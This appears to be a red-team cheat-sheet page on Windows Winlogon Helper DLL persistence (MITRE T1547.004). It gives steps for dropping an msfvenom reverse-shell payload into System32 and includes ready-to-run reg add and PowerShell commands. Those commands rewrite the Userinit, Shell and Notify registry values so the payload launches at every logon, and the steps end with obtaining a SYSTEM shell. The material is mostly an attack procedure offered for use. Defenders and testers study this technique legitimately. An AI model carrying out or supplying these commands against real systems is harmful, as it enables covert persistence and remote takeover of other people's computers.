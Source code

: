 # Winlogon Helper DLL

> Winlogon is a Windows component which handles various activities such as the Logon, Logoff, loading user profile, etc. It is managed by the registry which defines which processes to start during Windows logon. These events can be the trigger that will execute an arbitrary payload for persistence.

_____
**Tactics:** Persistence, Privilege Escalation

**Platforms:** Windows

**Permissions Required:** Administrator, SYSTEM

Requires modification of the following registry keys:

```bash
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify
```
_____

### Userinit registry:

1. Generate a reverse shell payload using msfvenom (.exe format).
2. Drop that payload into the "System32" folder.
3. Modify the userinit registry key to include our payload. Final version will be (C:\Windows\System32\userinit.exe, payload.exe)

```bash
#cmd:
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, payload.exe" /f

#powershell:
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, payload.exe" -Force
```

4. Start a handler.
5. Profit.

### Shell registry:

1. Generate a reverse shell payload using msfvenom (.exe format).
2. Drop that payload into the "System32" folder.
3. Modify the shell registry key to include our payload. Final version will be (C:\Windows\System32\explorer.exe, payload.exe)

```bash
#cmd:
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, payload.exe" /f

#powershell:
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, pentestlab.exe" -Force
```

4. Start a handler.
5. Profit.

### Notify registry (older Windows versions):

> Typically found in older operating systems (prior to Windows 7). It points to a notification package DLL file which handles Winlogon events.

1. Generate a reverse shell payload using msfvenom (.dll format).
2. Drop that payload into the "System32" folder.
3. Replace the notify registry key with our payload.
4. Profit a SYSTEM shell.

_____

More info at [MITRE-T1547](https://attack.mitre.org/techniques/T1547/004/)
